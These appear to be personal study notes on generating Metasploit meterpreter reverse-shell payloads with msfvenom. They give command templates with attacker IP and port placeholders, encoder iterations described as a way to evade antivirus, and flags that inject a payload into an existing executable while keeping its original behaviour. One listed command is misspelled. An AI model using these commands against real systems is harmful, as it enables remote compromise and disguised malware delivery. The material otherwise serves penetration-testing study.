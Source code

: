 Create listener via msfconsole
![](</Images/Pasted image 20231220191222.png>)
### non-staged
>Formatted as `windows/x64/meterpreter_reverse_tcp`
#practice 
### staged
> Formatted as `windows/x64/meterpreter/reverse_tcp`

How to generate simple payload
`-a` specify architecture
`-p` specify payload
Attack machine info `LHOST` IP and `LPORT` port
`-f` file type `> payload name .<extension>`
`-f elf` for linux

Then transfer to victim machine
Lastly setup meterpreter session in msfconsole

### encoding payloads

to view different encoding methods:
`msfvenom --list enoders`

Good choice that works in both linux and windows
`shikata_ga_nai`

Usage:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attack ip> LPORT=<port> -e <encoder> -f <file type to create> > <file name and location>
```

Increase iterations to help evade AV detection. Specify iterations with `-i <number>`

`-x` to inject executable into new file
`-k` to keep original functionality

Usage example:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attack ip> LPORT=<port> -e <encoder> -f <file type to create> -x <executable to inject into> > <file name and location>
```

